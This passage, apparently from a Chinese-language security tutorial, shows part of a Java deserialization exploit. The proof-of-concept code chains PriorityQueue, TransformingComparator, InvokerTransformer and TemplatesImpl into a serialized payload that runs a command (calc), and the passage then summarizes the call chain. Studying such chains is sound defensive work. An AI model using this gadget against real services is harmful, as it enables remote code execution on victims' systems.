 ```java
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
        // stub data for replacement later
        queue.add(1);
        queue.add(1);

        Field iMethodName = transformer.getClass().getDeclaredField("iMethodName");
        iMethodName.setAccessible(true);
        iMethodName.set(transformer, "newTransformer");

        Field queueField = queue.getClass().getDeclaredField("queue");
        queueField.setAccessible(true);
        Object[] queueArray = new Object[]{templates,1};
        queueField.set(queue,queueArray);

        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(queue);
        oos.flush();
        oos.close();
    }
}
```

执行结果如下，计算器被弹出

![image-20241118221954685](./main.assets/image-20241118221954685.png)

## 调用链总结

* PriorityQueue.readObject()
  * PriorityQueue.heapify()
    * PriorityQueue.siftDown()
      * PriorityQueue.siftDownUsingComparator()
        * TransformingComparator.compare()
          * InvokerTransformer.transform()
            * TemplatesImpl.newTransformer()
              * TemplatesImpl.getTransletInstance()

注意：当InvokerTransformer.newTransformer()被调用时，就触发了TemplatesImpl中的创建payload实例的代码，当继承了AbstractTranslet的类的实例被创建时，会调用构造默认函数，在被调用了默认构造函数时，payload代码就会被执行(也就是Runtime.getRuntime().exec("calc")就会被执行。)

虽然ysoserial中使用的ClassPool的方式构造的poc，但是实际场景中，可能目标主机中并没有引用这个第三方库，所以有时候使用初版POC也是不错的选择。

